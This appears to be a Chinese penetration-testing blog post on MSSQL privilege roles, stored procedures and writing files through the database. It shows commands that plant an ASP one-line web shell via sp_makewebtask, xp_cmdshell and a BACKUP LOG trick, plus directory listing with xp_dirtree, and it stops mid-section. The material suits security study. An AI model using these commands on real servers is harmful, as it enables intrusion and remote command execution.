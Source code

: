 ```yaml
---
layout:     post
title:      对MSSQL文件操作分析
subtitle:   
date:       2019-02-19
author:     volcanohatred
header-img: img/articles/mssql文件上传分析/title.jpg
catalog: true
tags:
    - web渗透
---
```


前几天有一个面试，面试官问到一个问题，是关于mssql注入。当时信号不好没太听清楚，就瞎答，说到通过mssql写文件的时候，卡住了。之前在渗透测试中碰到过拿到mssql数据库密码然后上传木马的情况。只不过是借助工具进行上传，没有深刻理解原理，导致场面一度很尴尬。所以还得继续学习啦。  
### MSSQL数据库权限 
sa：数据库操作，文件管理，命令执行，注册表读取等  
db：文件管理,数据库操作等  
public：数据库操作  
sysadmin：执行SQL Server中的任何动作
serveradmin：配置服务器设置  
setupadmin：安装复制和管理扩展过程  
securityadmin：管理登录和CREATE DATABASE的权限  
processadmin：管理SQL Server进程  
dbcreator：创建和修改数据库  
diskadmin：管理磁盘文件
### MSSQL存储过程
1. 系统存储过程  
系统存储过程以前缀"sp_"来标识。系统存储过程是 SQL Server系统自身提供的存储过程，可以作为命令执行各种操作。  
2. 用户存储过程  
自定义存储过程即用户使用T_SQL语句编写的、为了实现某一特定业务需求，在用户数据库中编写的T_SQL语句集合，自定义存储过程可以接受输入参数、向客户端返回结果和信息，返回输出参数等。创建自定义存储过程时，存储过程名前加上"##"表示创建了一个全局的临时存储过程;存储过程前面加上"#"时，表示创建的局部临时存储过程。局部临时存储过程只能在创建它的回话中使用，会话结束时，将被删除。这两种存储过程都存储在tempdb数据库中。  
3. 扩展存储过程  
扩展存储过程以前缀"xp_"来标识。扩展存储过程是以在SQL SERVER环境外执行的动态连接(DLL文件)来实现的，可以加载到SQL SERVER实例运行的地址空间中执行。扩展存储过程可以用SQL SERVER扩展存储过程API编程。
### 通过MSSQL写文本文件
sa权限下，可以使用sp_makewebtask，xp_cmdshell
```
sp_makewebtask
exec sp_makewebtask  '可读写路径','select''<%execute(request("cmd"))%>'''  
xp_cmdshell  
exec xp_cmdshell 'echo "<%execute(request("cmd"))%>">> 可读写路径)'
```
db权限下:（在数据库有备份的情况下才能使用）  
```
目录情况：
create table temp(dir nvarchar(255),depth varchar(255),files varchar(255),ID int NOT NULL IDENTITY(1,1));--  
insert into temp(dir,depth,files)exec master.dbo.xp_dirtree 'c:',1,1-- 
select dir from temp where id=1  通过修改id来遍历目录
写数据 
alter database 数据库名 set RECOVERY FULL  开启恢复模式full，当恢复模式为 SIMPLE 时，不允许使用 BACKUP LOG 语句。
create table test(str image)--    
insert into test(str)values ('<%execute(request("cmd"))%>')--  
backup log 数据库名 to disk='c:\可读写路径\x.asp'--  这里的目录注意是可读写目录，不然会出问题
alter database 数据库名 set RECOVERY simple-- 关闭恢复模式full
```  
上面说的情况只是针对文本文件，当然如果可以通过数据库上传任意文件岂不完美？直接传马不就行啦？下面就说说通过MSSQL存储过程进行任意文件的操作。 
### 通过MSSQL上传任意文件
先说说存储过程基础：  